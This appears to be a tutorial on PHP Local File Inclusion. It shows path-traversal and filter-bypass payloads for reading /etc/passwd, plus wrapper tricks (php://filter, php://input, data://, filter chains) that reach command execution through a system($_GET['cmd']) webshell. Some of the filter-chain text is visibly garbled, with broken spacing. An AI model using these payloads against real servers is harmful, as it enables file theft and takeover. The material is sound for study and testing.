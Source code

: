 The Local File Inclusion (LFI) vulnerability is a computer security vulnerability that occurs when a web application fails to properly validate user input, allowing an attacker to access local files on the web server.

In many cases, attackers exploit the LFI vulnerability by abusing input parameters in the web application. Input parameters are data that users enter into the web application, such as URLs or form fields. Attackers can manipulate the input parameters to include local file paths in the request, which can allow them to access files on the web server. This technique is known as "Path Traversal" and is commonly used in LFI attacks.

In the Path Traversal attack, the attacker uses special characters and escape characters in the input parameters to navigate through web server directories and access files in sensitive locations on the system.

For example, the attacker could include "../" in the input parameter to navigate up the directory structure and access files in sensitive system locations.

To prevent LFI attacks, it is important for web application developers to properly validate and filter user input, limiting access to system resources and ensuring that files can only be included from allowed locations. In addition, companies should implement appropriate security measures, such as file encryption and limiting unauthorized user access to system resources.

# Example

We can do a basic LFI attack where we will read the */etc/passwd* file:

```php
<?php
    $filename = $_GET['filename'];
    include($filename); // 'include' keyword opens a file
?>
```

```
http://localhost/index.php?filename=/etc/passwd
```

In this case the victim is trying to protect itself by limiting the directory from which we can call the file:

```php
<?php
    $filename = $_GET['filename'];
    include("/var/www/html/" . $filename); // /var/www/html//etc/passwd /var/www/html/../../../../../../etc/passwd (directory path traversal, tirar hacia la raiz para ejecutar el dichero)
?>
```

We can bypass it doing a **Path Traversal** by navigating to the root and then to the directory and file we want:

```
http://localhost/index.php?filename=../../../../../../../etc/passwd
```

In this case the victim tries to remove the '../' so that we cannot do a **Path Traversal**:

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    include("/var/www/html/" . $filename);
?>
```

If it is not recursive, we can bypass this as follows:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd
```

In this way, even if the substitution removes the '../' we will still be left with a '../'.

In this case the victim tries to protect itself by using regular expressions to prevent access to '/etc/passwd':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(preg_match("\/etc\/passwd/", $filename) === 1) {
        echo "\n[!] No es posible visualizar el contenido de este archivo\n";
    } else {
        include("/var/www/html/" . $filename);
    }
?>
```

We can bypass this as follows:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc///////////passwd

http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/././././passwd
```

Here the user tries to delimit by extension the files that can be added:

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    include("/var/www/html/" . $filename . ".php");
?>
```

In *older versions of PHP* you can insert a nullbyte "%00" to bypass file extensions (**Null Byte Injection**):

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd%00

http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd\0
```

Also in *older versions of PHP*, in case of filters like 'make sure that the last 6 characters of the input is not passwd':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(substr($filename, -6, 6) != "passwd") {
        include($filename);
    }
?>
```

We can bypass it like this:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd/.
```

Also in *older versions of PHP*, in case of filters like 'I want the file to end with the extension .txt':

```php
<?php
    $filename = $_GET['filename'];
    $filename = str_replace("../", "", $filename);
    
    if(substr($filename, -4, 4) != ".txt") { // Esto hace alusion a los ultimos 4 caracteres de la cadena de texto
        include($filename);
    }
?>
```

It would also be bypassed as in the previous case:

```
http://localhost/index.php?filename=....//....//....//....//....//....//....//etc/passwd/.
```

## Wrappers

We can use the wrapper *php://filter* to represent the same data contained in the file as *base64*, among others

```
http://localhost/index.php?filename=php://filter/convert.base64-encode/resource=/etc/passwd
```

The resulting *base64* string can be saved in a file (in this case we will call it 'myFile') and converted to plain text in this way:

```shell
# The 'sponge' command is used to put the result in the same file
cat data | base64 -d | sponge data
```

We can use the following wrapper to rotate each character 13 positions:

```
php://filter/read=string.rot13/resource=/etc/passwd
```

We can perhaps execute commands at the system level with the following wrapper:

```
expect://whoami
```

If we change the request from *GET* to *POST* method we could pass data to it with this wrapper and start an RCE:

```
POST /?filename=php://input
```

And we can send as data the command we want:

```php
<?php system("whoami"); ?>
```

If we change the petition as *GET* again we can obtain *RCE* too:

```php
// We convert the command into base64
echo '<?php system("whoami"); ?>' | base64; echo

// We use the base64 command here
data://text/plain;base64,{CODE_IN_BASE}

// We can also handle it with 'cmd'
echo '<?php system($_GET["cmd"]); ?>' | base64; echo
data://text/plain;base64,{CODE_IN_BASE}&cmd=whoami
```

### Filter Chains

We have to keep in mind that PHP needs to convert the data from UTF8 to UTF7 so that the '=' does not cause conflict and error:

```bash
# UTF8.UTF7 is used to convert from UTF8 to UTF7
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/tmp/test');"; echo
```

----
> If you don't know which file to point to on a machine, point to *php://temp*
----

To achieve the desired effect and to be able to execute an *RCE* we must introduce characters to the left of the base64 string playing with the encode and decode, manually:

```php
// In this case we are introducing 'Hola'
php://filter/convert.iconv.UTF8. CSIS02022KR | convert.iconv.UTF8.UTF7 | convert.iconv.CP1046.UTF32 | convert.iconv.L6.UCS-2 | convert.ic onv.UTF-16LE.T.61-8BIT | convert.iconv.865.UCS-4LE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert. iconv.CP-AR.UTF16 | convert.iconv.8859_4.BIG5HKSCS | convert.ic onv.MSCP1361.UTF-32LE | convert.iconv.IBM932.UCS-2BE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert.iconv.JS. UNICODE | convert.iconv.L4.UCS2 | convert.iconv.UCS- 4LE.OSF05010001 | convert.iconv. IBM912.UTF-16LE | convert.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7 | convert.iconv.CP1046.UTF16 | convert.iconv. IS06937. SHIFT_JISX0213 | conver t.base64-decode | convert.base64-encode | convert.iconv.UTF8.UTF7/resource=php://temp
```

We can also do this automatically with the [php_filter_chain_generator]("https://github.com/synacktiv/php_filter_chain_generator") tool:

```bash
python3 php_filter_chain_generator.py --chain 'Hola'

python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'

python3 php_filter_chain_generator.py --chain '<?php system($_GET['cmd']); ?>'
```

If the web interprets php on the back end, it is worth trying all these wrappers.

----
> Be careful with spaces in the .php file! Delete all spaces manually and then tabulate in case you get a 500 error on our server.
----